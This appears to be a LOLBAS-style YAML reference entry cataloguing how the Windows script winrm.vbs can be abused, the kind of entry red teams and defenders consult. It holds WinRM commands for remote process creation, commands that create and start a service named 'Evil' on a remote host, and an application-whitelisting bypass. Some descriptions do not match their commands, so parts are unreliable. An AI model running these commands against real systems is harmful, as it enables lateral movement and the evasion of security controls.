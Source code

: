 ```yaml
---
name: winrm.vbs
description: Script used for manage Windows RM settings
functions:
  execute:
    - description: Hijack the Scripting.Dictionary COM Object to execute remote scriptlet (SCT) code.
      code: reg.exe import c:\path\to\Slmgr.reg & winrm quickconfig
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Process class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Process @{CommandLine="notepad.exe"} -r:http://target:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
    - description: Lateral movement/Remote Command Execution via WMI Win32_Service class over the WinRM protocol
      code: winrm invoke Create wmicimv2/Win32_Service @{Name="Evil";DisplayName="Evil";PathName="cmd.exe /k c:\windows\system32\notepad.exe"} -r:http://acmedc:5985   \nwinrm invoke StartService wmicimv2/Win32_Service?Name=Evil -r:http://acmedc:5985
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Proxy execution
  awl bypass:
    - description: Bypass AWL solutions by copying and executing cscript.exe and malicious XSL documents from attacker controlled location
      code: %SystemDrive%\BypassDir\cscript //nologo %windir%\System32\winrm.vbs get wmicimv2/Win32_Process?Handle=4 -format:pretty
      mitreid: T1216
      mitrelink: https://attack.mitre.org/wiki/Technique/T1216
      operatingsystem: Windows 10
      privileges: User
      usecase: Execute aribtrary, unsigned code via XSL script
resources:
    - resource: https://www.slideshare.net/enigma0x3/windows-operating-system-archaeology
    - resource: https://www.youtube.com/watch?v=3gz1QmiMhss
    - resource: https://github.com/enigma0x3/windows-operating-system-archaeology
    - resource: https://redcanary.com/blog/lateral-movement-winrm-wmi/
    - resource: https://twitter.com/bohops/status/994405551751815170
    - resource: https://posts.specterops.io/application-whitelisting-bypass-and-arbitrary-unsigned-code-execution-technique-in-winrm-vbs-c8c24fb40404
    - resource: https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
fullpath:
    - path: C:\Windows\System32\winrm.vbs
    - path: C:\Windows\SysWOW64\winrm.vbs
detection:
  - IOC: 
acknowledgement:
  - Person: Matt Graeber
    Handle: '@mattifestation'
  - Person: Matt Nelson
    Handle: '@enigma0x3'
  - Person: Casey Smith
    Handle: '@subtee'
  - Person: Jimmy
    Handle: '@bohops'
  - Person: Red Canary Company cc Tony Lambert
    Handle: '@redcanaryco'
---
```

